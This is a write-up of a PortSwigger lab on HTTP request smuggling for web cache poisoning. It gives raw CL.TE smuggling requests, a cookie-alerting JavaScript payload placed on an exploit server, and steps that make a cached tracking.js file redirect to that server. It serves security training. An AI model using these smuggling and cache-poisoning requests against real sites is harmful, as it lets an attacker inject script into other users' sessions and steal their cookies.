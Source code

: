 # Exploiting HTTP request smuggling to perform web cache poisoning

## Description

[This lab](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning) involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.

## Reproduction and proof of concept

1. Open a blog post, click "Next post", and try smuggling the resulting request with a different Host header:

```html
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 129
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: anything
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

2. Observe that you can use this request to make the next request to the website get redirected to `/post` on a host of your choice.
3. Go to your exploit server, and create a `text/javascript` file at ``/post`` with the contents:
    `alert(document.cookie`)
4. Poison the server cache by first relaunching the previous attack using your exploit server's hostname as follows:

```html
POST / HTTP/1.1
Host: lab-id.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 193
Transfer-Encoding: chunked

0

GET /post/next?postId=3 HTTP/1.1
Host: YOUR-EXPLOIT-SERVER-ID.exploit-server.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 10

x=1
```

5. Then fetch `/resources/js/tracking.js` by sending the following request:

```text
GET /resources/js/tracking.js HTTP/1.1
Host: lab-id.web-security-academy.net
Connection: close
```

If the attack has succeeded, the response to the `tracking.js` request should be a redirect to your exploit server.

6. Confirm that the cache has been poisoned by repeating the request to `tracking.js` several times and confirming that you receive the redirect every time.

You may need to repeat the POST/GET process several times before the attack succeeds. 

## Exploitability

An attacker will need to perform a request smuggling attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server. The poisoned cache would alert `document.cookie`. The lab simulates the activity of a victim user. Every few POST requests that an attacker makes to the lab, the victim user will make their own request. An attacker might need to repeat their attack a few times to ensure that the victim user's request occurs as required.
